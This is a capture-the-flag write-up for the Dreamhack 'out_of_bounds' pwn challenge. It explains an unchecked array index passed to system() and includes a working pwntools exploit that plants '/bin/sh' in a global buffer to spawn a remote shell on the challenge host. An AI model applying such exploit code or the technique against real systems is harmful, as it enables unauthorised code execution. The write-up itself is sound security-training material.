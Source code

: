 # out_of_bounds - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 1
- Provided Files: out_of_bounds.c, out_of_bounds(ELF)
- tools: 
## Brief Description
이 문제는 서버에서 작동하고 있는 서비스(out_of_bound)의 바이너리와 소스 코드가 주어집니다.
프로그램의 취약점을 찾고 익스플로잇해 셸을 획득하세요.
"flag" 파일을 읽어 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
플래그의 형식은 DH{...} 입니다.
## Initial Analysis
### Environment
``` sh
checksec out_of_bounds
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```
### Code
``` c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char name[16]; // bss

char *command[10] = { // data
    "cat", // rodata
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```
## Vulnerability
### OOB(Out of Bounds)
``` c
scanf("%d", &idx);
system(command[idx]);
```
`idx`의 값을 검증하지 않아 OOB 취약점이 발생한다.  
## Exploit
### Strategy
PIE가 비활성화 되어있어 bss, data 영역의 주소는 고정된다. 전역 변수인 `name`과 `command`는 각각 bss와 data 영역에 위치하게 되지만, 두 세그먼트는 연속적으로 저장된다. data -> .bss 순으로 붙어 있기 때문에 주소가 가까울 것이라고 예상할 수 있다. `name`에 `"/bin/sh\x00"` + `name addr`를 저장하고, `idx`에 `name addr`가 있는 부분으로 인덱스를 알맞게 전달하면 `system(command[name_addr offset])` 즉, `system("/bin/sh")`을 실행할 수 있다.
### Exploitation Steps
``` sh
pwndbg> info variables name
0x0804a0ac  name
pwndbg> info variables command
0x0804a060  command
```
### payload
``` python
from pwn import *

p = remote('host8.dreamhack.games', 13363)
context.arch = "i386"

# name = "/bin/sh\x00"
name = 0x0804a0ac
command = 0x0804a060
payload = b'/bin/sh\x00' + p32(name) # 8 + 4 = 12byte
p.sendlineafter(b'Admin name: ', payload)

# idx
idx = (name - command) // 4 + 2 # 76 // 4 + 2 = 21
p.recvuntil(b'What do you want?: ')
p.sendline(str(idx).encode())

# interactive
p.interactive()
```
